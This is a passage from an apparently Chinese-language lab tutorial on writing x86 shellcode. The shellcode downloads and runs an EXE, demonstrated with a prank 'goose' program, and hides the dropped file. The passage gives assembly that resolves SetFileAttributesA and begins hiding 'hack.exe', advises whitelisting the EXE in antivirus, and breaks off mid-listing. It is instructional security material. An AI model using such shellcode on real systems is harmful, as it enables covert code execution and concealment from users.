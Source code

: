   ```
  ```
- 为了演示效果本次实验使用的 EXE 文件执行后会释放一只鹅，将会在你的屏幕上捣乱(<ゝωΦ)【因为包含下载运行操作，使用 shellcode 的 EXE 文件前，要加入杀毒软件的信任列表】，实验效果如下：<br>

  <img src="img/goose-hack.gif" alt="无名之鹅" width=700px>

  - 因为没有下配置文件所以会报错，并生成一个配置文件【Σ( ° △ °|||)︴产生多余文件好像不是什么明智的选择】

### 隐藏下载文件

- 隐藏文件使用的是`SetFileAttributesA`函数，修改文件的属性，属于`Kernel32.dll`
- 先找到函数地址，需要调用之前的`GetProcAddress`函数
  ```
  ; Finding address of SetFileAttributesA()
  xor edx, edx
  mov edx, 0x4173		; As
  push edx
  push 0x65747562		; etub
  push 0x69727474		; irtt
  push 0x41656C69		; Aeli
  push 0x46746553		; FteS
  push esp
  push dword [ebp-0x4]	; $lpProcName -- push base address of kernel32.dll to the stack
  mov eax, [ebp-0x1C]	; PTR to GetProcAddress to EAX
  call eax
  ```
- 调用`SetFileAttributesA`函数，将文件隐藏
  ```
  ; Call SetFileAttributesA("hack.exe", FILE_ATTRIBUTE_HIDDEN)
  xor ecx, ecx
  push ecx
  push 0x6578652E         ; exe.
  ```